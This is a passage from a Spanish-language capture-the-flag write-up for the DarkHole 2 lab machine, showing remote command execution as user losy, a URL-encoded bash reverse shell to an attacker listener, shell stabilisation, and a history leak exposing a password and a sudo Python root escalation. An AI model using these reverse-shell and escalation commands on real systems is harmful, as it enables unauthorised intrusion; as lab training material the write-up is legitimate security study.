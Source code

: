 El comando se ejecuta como usuario losy, confirmando RCE.

#### Reverse Shell como losy

Listener en máquina atacante:
```
nc -lvnp 443
```

![[darkhole_2.25.png]]

Payload desde consola de jehad (URL encoded):
```
curl "http://localhost:9999/?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'"
```

![[darkhole_2.26.png]]
	Shell inversa obtenida como losy.

#### Estabilización de TTY

Comandos para estabilizar la shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```
	Luego CTRL+Z y ejecutar:
```
stty raw -echo; fg
```

Finalmente:
```
export TERM=xterm
```

#### Análisis del Historial de losy

Comando:
```
history
```
![[darkhole_2.27.png]]
> [!danger] Información Crítica en Historial
> Comandos encontrados:
> 1. sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
> 2. sudo python3 -c 'import os; os.system("/bin/sh")'
> 3. P0assw0rd losy:gang (credenciales expuestas)

El usuario losy tiene permisos sudo para ejecutar Python como root.

### Escalada a Root

![[darkhole_2.0.png]]
